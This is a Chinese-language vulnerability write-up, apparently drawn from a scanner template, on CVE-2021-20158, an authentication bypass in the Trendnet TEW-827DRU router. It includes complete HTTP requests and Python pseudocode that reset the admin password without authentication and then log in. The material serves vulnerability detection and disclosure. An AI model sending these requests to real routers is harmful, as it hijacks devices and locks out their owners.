

# Trendnet AC2600 TEW-827DRU 2.08B01 认证绕过与信息泄露漏洞（CVE-2021-20158）

## 漏洞简介
Trendnet AC2600 TEW-827DRU 路由器 2.08B01 版本存在认证绕过漏洞，攻击者可通过隐藏接口未授权修改管理员密码，进而获取设备完全控制权。

## 影响范围
- 受影响产品：Trendnet AC2600 TEW-827DRU（固件 2.08B01）
- CPE: `cpe:2.3:o:trendnet:tew-827dru_firmware:2.08b01:*:*:*:*:*:*:*`

## 漏洞原理
设备存在隐藏管理命令，未做有效认证校验，攻击者可直接通过 POST 请求修改管理员密码，随后登录后台获取敏感信息。

## 利用方式与攻击流程
1. 攻击者向 `/apply_sec.cgi` 发送特定 POST 请求，设置新的管理员密码。
2. 随后用新密码登录后台，获取设备配置信息。

## 探测原理与流程
### 请求包示例
1. 设置新密码：
```http
POST /apply_sec.cgi HTTP/1.1
Host: target.com

ccp_act=set&action=tools_admin_elecom&html_response_page=dummy_value&html_response_return_page=dummy_value&method=tools&admin_password=newpass
```
2. 登录后台：
```http
POST /apply_sec.cgi HTTP/1.1
Host: target.com

html_response_page=%2Flogin_pic.asp&login_name=YWRtaW4%3D&log_pass=bmV3cGFzcw==&action=do_graph_auth&login_n=admin&tmp_log_pass=&graph_code=&session_id=
```

### 响应与判定逻辑
- 响应体包含 `setConnectDevice`、`setInternet`、`setWlanSSID`、`TEW-827DRU`。
- 响应头包含 `text/html`，状态码为 200。

### 伪代码
```python
# 步骤1：设置新密码
requests.post('http://target.com/apply_sec.cgi', data='ccp_act=set&action=tools_admin_elecom&...&admin_password=newpass')
# 步骤2：用新密码登录
resp = requests.post('http://target.com/apply_sec.cgi', data='...log_pass=bmV3cGFzcw==...')
if resp.status_code == 200 and all(x in resp.text for x in ['setConnectDevice','setInternet','setWlanSSID','TEW-827DRU']):
    print('存在认证绕过与信息泄露漏洞')
```

### Mermaid 流程图


## 参考链接
- [Tenable 安全通告](https://www.tenable.com/security/research/tra-2021-54)
- [NVD 官方漏洞库](https://nvd.nist.gov/vuln/detail/CVE-2021-20158)
- [ARPSyndicate cvemon](https://github.com/ARPSyndicate/cvemon)
- [ARPSyndicate kenzer-templates](https://github.com/ARPSyndicate/kenzer-templates) 